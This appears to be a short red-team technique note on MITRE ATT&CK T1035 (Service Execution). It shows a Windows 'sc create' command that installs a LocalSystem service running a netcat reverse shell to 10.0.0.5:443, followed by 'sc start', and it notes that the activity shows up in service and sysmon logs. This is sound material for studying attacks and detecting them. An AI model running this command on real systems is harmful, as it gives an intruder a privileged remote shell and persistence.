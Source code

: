 ```yaml
---
description: 'Code Execution, Privilege Escalation'
---
```


# T1035: Service Execution

## Execution

Creating an evil service with a netcat reverse shell:

{% code title="attacker@victim" %}
```csharp
C:\> sc create evilsvc binpath= "c:\tools\nc 10.0.0.5 443 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
[SC] CreateService SUCCESS
C:\> sc start evilsvc
```
{% endcode %}

## Observations

The reverse shell lives under services.exe as expected:

![](../../.gitbook/assets/services-nc.png)

Windows security, application, Service Control Manager and sysmon logs provide some juicy details:

![](../../.gitbook/assets/services-logs.png)

![](../../.gitbook/assets/services-shell.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1035" %}

